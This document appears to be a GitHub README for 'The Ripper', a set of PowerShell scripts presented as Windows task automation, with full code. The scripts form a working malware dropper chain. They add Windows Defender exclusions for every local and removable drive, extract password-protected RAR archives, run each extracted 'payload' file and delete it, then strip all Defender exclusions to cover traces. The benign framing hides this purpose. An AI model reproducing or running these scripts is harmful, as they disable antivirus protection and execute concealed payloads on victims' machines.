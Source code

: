 # The Ripper 🔪

A collection of PowerShell scripts to automate various tasks on Windows systems, such as enabling administrator rights, adding Windows Defender exclusions, and extracting/handling files.

## Included Scripts 📜

### 1. `enable_the_administrator.ps1` 👑

This script checks if the current user has administrative rights. If not, it displays an error message and stops execution. If the user is an administrator, a confirmation message is shown.

```powershell
Try {
    # Check if the user has administrative rights
    $isAdmin = ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")
    
    If (-Not $isAdmin) {
        Write-Host "This script must be run as an administrator." -ForegroundColor Red
        Exit 1
    }
    else {
        Write-Host "Administrator rights: Enabled" -ForegroundColor Green
    }

} Catch {
    Write-Host "An error occurred: $_" -ForegroundColor Red
}
```

- **Explanation**: This script uses .NET framework objects to check if the user is an administrator. If the user is not an administrator, the script execution is stopped with an error message.

### 2. `exclusion_for_all.ps1` 🔒

This script adds exclusions for all connected drives (internal, external, removable) to Windows Defender. It ignores network drives and drives without a letter.

```powershell
# Function to add exclusions for all connected drives
Function Add-ExclusionForAllDrives {
    $allDrives = Get-WmiObject -Class Win32_LogicalDisk
    foreach ($drive in $allDrives) {
        # Ignore network drives and drives without a letter
        if ($drive.DriveType -ne 4 -and $drive.DeviceID) {
            $driveLetter = $drive.DeviceID + '\'
            Write-Host "Adding exclusion for drive: $driveLetter" -ForegroundColor Yellow
            Add-MpPreference -ExclusionPath $driveLetter
        }
    }
}

Add-ExclusionForAllDrives
```

- **Explanation**: This script uses `Get-WmiObject` to retrieve all drives and exclude them from Windows Defender. It only considers local and removable drives, ignoring network drives.

### 3. `start_Payload_for_rar.ps1` 🎯

This script extracts all `.rar` files from the project's root directory to a specific folder, then executes each extracted file and deletes it after execution.

```powershell
$projectRoot = $PSScriptRoot
$extractPath = "$projectRoot\extraction"

if (-not (Test-Path $extractPath)) {
    New-Item -ItemType Directory -Force -Path $extractPath
}

$rarFiles = Get-ChildItem -Path $projectRoot -Filter "*.rar"
foreach ($rarFile in $rarFiles) {
    Write-Host "Extracting archive: $rarFile" -ForegroundColor Yellow
    & "C:\\Program Files\\WinRAR\\WinRAR.exe" x -p"toto123" -o+ "$rarFile" "$extractPath"
    Start-Sleep -Seconds 4

    $extractedFiles = Get-ChildItem -Path $extractPath
    foreach ($file in $extractedFiles) {
        Write-Host "Executing: $file" -ForegroundColor Green
        if ($file.PSIsContainer) { 
            Write-Host "The file $file is a directory and will be ignored." -ForegroundColor Yellow
            continue
        }

        try {
            $process = Start-Process -FilePath $file.FullName -PassThru
            $process.WaitForExit()
            Write-Host "The file $file has finished executing." -ForegroundColor Green
        }
        catch {
            Write-Host "Error running the file." -ForegroundColor Red
        }

        Remove-Item -Path $file.FullName -Force
        Write-Host "The file $file has been deleted." -ForegroundColor Green
    }
}

Write-Host "Processing complete." -ForegroundColor Green
```

- **Explanation**: This script extracts all `.rar` files into the specified folder, executes them, and deletes them afterward. It uses WinRAR for extraction and waits for the process to finish before moving on to the next file.

### 4. `disable_exclusion_and_payload.ps1` 🛑

This script removes all Windows Defender exclusions and also deletes the extraction folder of files.

```powershell
$projectRoot = $PSScriptRoot
$extractPath = "$projectRoot\extraction"

Function Remove-ExtractionFolder {
    if (Test-Path $extractPath) {
        Remove-Item -Path $extractPath -Recurse -Force
        Write-Host "The extraction folder has been deleted." -ForegroundColor Green
    } else {
        Write-Host "The extraction folder does not exist." -ForegroundColor Yellow
    }
}

Function Disable-WindowsDefenderExclusions {
    $defenderExclusions = Get-MpPreference | Select-Object -ExpandProperty ExclusionPath
    if ($defenderExclusions) {
        foreach ($exclusion in $defenderExclusions) {
            Remove-MpPreference -ExclusionPath $exclusion
            Write-Host "Exclusion removed: $exclusion" -ForegroundColor Yellow
        }
    } else {
        Write-Host "No exclusions found in Windows Defender." -ForegroundColor Yellow
    }
}

Disable-WindowsDefenderExclusions
Remove-ExtractionFolder

Write-Host "Process complete." -ForegroundColor Green
```

- **Explanation**: This script disables all Windows Defender exclusions and removes the extraction folder, cleaning up unnecessary files.


## How to Use the Scripts 🔧

1. **Download or clone this repository**.
2. **Run each script with administrator privileges** for everything to work properly.
3. **Follow the on-screen messages** to track the actions being performed (adding exclusions, extracting files, executing files, etc.).

## Warning ⚠️

These scripts can interact with important system settings such as Windows Defender exclusions. Use them with caution and make sure you understand how they work before executing them.
